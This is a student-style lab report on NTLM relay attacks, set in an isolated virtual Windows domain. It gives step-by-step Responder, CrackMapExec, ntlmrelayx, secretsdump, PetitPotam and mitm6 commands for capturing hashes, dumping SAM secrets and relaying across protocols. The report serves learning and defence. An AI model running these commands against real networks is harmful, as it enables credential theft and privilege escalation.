








# Cybersecurity report - 2024

## NTLM Relay attacks

### Introduction
This report is about the NTLM relay attack. My work is based on the online tutorials
[SANS Workshop – NTLM Relaying 101](https://jfmaes-1.gitbook.io/ntlm-relaying-like-a-boss-get-da-before-lunch/) and [the 2022 NTLM guide on the companion site](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022), with some modifications I will outline whenever the case.

The environment has been setup this way, under Virtual Box 7.0.14 r161095:

| Name | Role | OS | IP |
|:-------|:------| :-----| :----|
| NTLM-DC | Domain controller   | Windows | 10.0.0.100 |
| SRV01 | File server SV01 | Windows | 10.0.0.10 |
| VICTIM | Victim client    | Windows | 10.0.0.2 |
| - | Attacker    | Ubuntu 22.04.01 LTS | 10.0.0.7 |

All Windows machines are Windows Server 2019 Standard Evaluation Version 10.0.17763 Build 17763 downloaded from the tutorial already setup for the lab (manual detailed configuration steps also provided in the SANS tutorial).

All network interfaces are setup as "internal network" and each machine has a static IP address inside the network 10.0.0.0/24. I made the following changes to the setup:
- changed the IP address of the victim from 10.0.0.1 to 10.0.0.2 due to conflict when using natted network during my experiments;
- changed all the lockscreen and desktop background images for ease of presentation and screenshots;
- configured a time synchronization method between VMs;
- disabled energy savings to avoid screen saver kicking in;
- issued slmgr -rearm to rearm the Windows Server evaluation version, which extends the evaluation period by 30 days to stop the annoying frequent automatic reboots.

### NTLM Relay
NTLM relay attacks are a powerful way to move around and escalate privileges in a domain network.
The attacker relays an incoming authentication request from a victim to a target service. 
When a server asks the client (attacker) to prove his identity by encrypting a challenge, the attacker passes that challenge on and asks the victim to encrypt that same challenge for himself in order to impersonate victim’s identity against the server.

The threat model assumes that the attacker has MITM at the TCP level capability, which is relatively simple to obtain in Windows environments, for example abusing DNS legacy fallback protocols like LLMNR and NBT-NS or leveraging IPv6 MITM.

Taken MiTM capability for granted, an attacker may then try to impersonate one of the two parties in execution of authentication protocol and even impersonate the client on a different server of his choice, as we will see in a moment.

Keep in mind that:
- many protocols are vulnerable to NTLM relay attack, such as SMB but also HTTP or LDAP, and attacks can also be carried “cross-protocol”;
- there is a matrix of compatibility of “cross-protocol” combinations with a very nice [diagram here](https://www.thehacker.recipes/ad/movement/ntlm/relay), according to which SMB can not be relayed to LDAP, but HTTP can (see also [this](https://en.hackndo.com/ntlm-relay/#what-can-be-relayed) );
- message signing, such as in SMB signing, prevents NTLM relay attacks, and this is why it is [becoming mandatory](https://www.techzine.eu/news/devops/107034/windows-11-makes-smb-signing-mandatory/).

So the basic building blocks of an NTLM relay attack are these:
- A target service that an attacker wants to access using the identity of the victim;
- Some relay tool that handles the message exchange in the relay protocol;
- A user (victim) connecting to the attacker: the victim will encrypt the challenge(s) on behalf of the attacker.

### Attack 0: Initial reconnaisance

We need to learn more about our network environment. First of all we can search for broadcast traffic in the environment, for example from DNS replacement protocols like Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS).

We can then use Responder in analyze mode as follows : 
```
responder -I enp0s3 -A
```
The `-A` flag makes sure we are just listening and not actually poisoning anything. 
When I logged on the victim pc opened a file browser and tried to connect to `\\UGABUGA\`, the responder interface populated with lots of messages showing that LLMNR, NBT-NS and IPv6 are enabled on the network.



Please note that even in this configuration, the tool captures guessing material (NetNTLM hash, the result of NTLM challenge-response protocol execution) for eventual later use with an offline guessing attack. This behaviour is particularly useful when an organization has automatic tools called “spyders” scanning the network.

In the next step we will use the “CrackMapExec” tool and its module “smb” in order to carry an initial reconnaisance to find servers that do not support SMB signing :
```
cme smb 10.0.0.0/24 --gen-relay-list targets.txt
```
The extracted list includes 10.0.0.2 (VICTIM) and 10.0.0.10 (SRV01) and not 10.0.0.100 (NTLM-DC) since the latter by default has SMB signing enabled.



### Attack 1A: SMB to SMB Relay Using Responder and NTLM Relay + SAM Dump
This attack uses the tools "Responder.py" and "ntlmrelayx.py" together. This approach relies on broadcast protocols in the network such as LLMNR or NBT-NS to convince a victim to connect to the attacker-controlled machine. 

In order for Responder and NTLM relay to work nicely together, we have to modify the Responder.conf file and disable the HTTP and SMB servers (as NTLM relay will be our SMB and later on also HTTP server). 

Open a terminal and launch responder:
```
python3 Responder.py -I enp0s3
```
In another terminal we’ll execute the "ntlmrelayx.py" tool from the “Impacket” suite to listen for incoming connections, relay the authentication to target server and execute a command on the target machine:
```
ntlmrelayx.py –tf targets.txt –c <COMMAND>
```
As per default "ntlmrelayx.py" behaviour, if you omit the last parameter “-c”, when the victim account connecting to the attacker happens to be high privilege on the target machine, the tool will automatically dump the SAM hive, the local Security Account Manager on Windows operating system, which contains password hashes for local accounts including local admins. You could then use those credentials to achieve code execution or dump LSASS memory that may contain domain level credentials. 

For this attack I setup ntlmrelayx to perform SMB to SMB relay with 
```
ntlmrelayx.py –tf targets.txt -smb2
```
Then I opened the GUI of VICTIM, launched the File Browser and just input `\\casualname\` without pressing enter or any other key. I was greeted with these messages on the ntlmrelayx console: 



What happens under the hood is that the tool “ntlmrelayx.py” tries to authenticate to all the targets in the list targets.txt obtained with “cme”; the connection was relayed successfully to 10.0.0.10 SRV01 but not back to the victim (cannot relay to yourself). Since it happens that the user “victim” is local admin on SRV01, the secrets are automatically dumped.

### Attack 1B: Proxy Chaining the SMB Connection Using Responder and NTLM Relay
In order to illustrate this, we can setup ntlmrelayx with socks mode enabled, meaning we will be able to reuse the relayed connection for using additional toos such as smbclient, psexec, secretsdump etc. 

Let's kill our ntlmrelayx session and start it up again but this time with the -socks option:
```
ntlmrelayx.py -tf /home/jean/Desktop/targets.txt -smb2 -socks
```
To make it work, you also need to modify the following proxychains4 configuration file to change the default port 9050 to 1080 that ntlmrelayx uses:
```
nano /etc/proxychains4.conf 
```
As you can see, if you input the “socks” command in the ntmlrelayx console, it will present a nice overview of which relays were successful. Please note that those connections will be maintained open “indefinitely”.



An attacker can then open another terminal to perform further actions on the open connection in a very convenient and efficient way, for example:
```
proxychains4 secretsdump.py ntlmlab/victim@10.0.0.10
```
or
```
proxychains4 smbclient.py ntlmlab/victim@10.0.0.10
```

After issuing the command, when prompted for a password just leave it blank and hit enter. 
This way the tool understands that you want to use the open connection that was already intercepted and relayed before, effectively bypassing the password requirement.



Please note that even if the attacked users are not admin of the system, there could still be some overprivilege problems that an attacker could investigate and leverage, like for example a user could access some network share with confidential data. Lets keep this in mind for later attack 2A.

### Attack 2: Cross protocol NTLM Relay

If we try to relay the NTLM authentication for SMB to `ldap://10.0.0.100` (NTLM-DC) with: 
```
ntlmrelayx.py -t ldap://10.0.0.100 -smb2
```
When we try to connect to `\\10.0.0.7\` from victim, we get a pretty self-explanatory error on the ntlmrelayx.py console that informs us that :
```
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
```
We have 2 options to explore then: WebDAV or Mitm6
### Attack 2A: WebDAV
By default WebDav service is installed and running on Windows servers but not on the workstations. 
For ease of this lab, the webclient service has been manually enabled with:
```
start-service webclient
```
Please note that if the webclient is installed but not running, there are some techniques that allow to enable the service, for example placing a "Documents.searchConnector-ms” on a share.

For our next step, how can we force an authentication over HTTP?

An attacker can try to coerce client authentication with RPC calls, primarily abusing the printer spool with “Printerbug” or abusing file encryption with “Petit Potam” tool.
```
python3 PetitPotam.py -u victim -d ntlmlab.local -p Qwerty123 attacker@80/aaa 10.0.0.2
```
Please see the attached screenshot with two terminal windows side-by-side 



Historically, PetitPotam worked from an unauthenticated perspective, but this has been patched as in our demo environment, so both the coercion techniques presented need valid credentials to trigger an authentication over HTTP to the attacker machine what will finally relay to LDAP.
Given this limitation, if we already have suitable credentials, we could just use another tool to directly connect to LDAP and dump data, like for example “ldapdomaindump”.

### Attack 2B mitm6
The IPv6 takeover is more interesting, as we do not require any credentials for that type of attack. However, this attack can only be successfully performed if the organization we are targetting has IPv6 enabled, but not in use, which is quite common since in modern Windows operating systems, IPv6 is enabled by default and typically not used.
This means that computers periodically poll for an IPv6 lease and, if found, they will immediately start to use it since IPv6 has precedence over IPv4.

Let's start mitm6 on our attacker computer: 
```
mitm6 -d ntlmlab.local --ignore-nofqdn
```
We are now assigning IPv6 addresses to computers requesting DHCPv6 leases over the wire, ignoring requests that are not Fully Qualified Domain Names (FQDN) and answering only for the domain "ntlmlab.local" to improve the precision of attack and reduce noise. 

Once poison is complete, when a victim user attempts to browse an internal resource, which is to say something that requires internal DNS resolution, it will be resolved by our tool with the address of attacker, and on the victim machine will appear a prompt asking for credentials which totally seems legit; this works on internet explorer and other browsers that do transparent proxying.

This is what happens on the victim machine:
- on the left the result of a `ipconfig /all` to show that there is a new DNS server with the IPv6 address of attacker, and the `ping zabbix.ntlmlab.local` command that goes to the attacker’s IP address 10.0.0.7;
- on the right, the http request towards `zabbix.ntlmlab.local` that fires up the prompt asking for credentials.



This is what happens on the attacker machine, on the left the mitm6 tool's console where you can see it is actually poisoning addresses, on the right ntlmrelayx after the user has entered the credentials in the login form:



We just saw an example of a successfull cross-protocol NTLM relay attack from an unauthenticated standpoint, since actual credentials of users were never used in the attack.

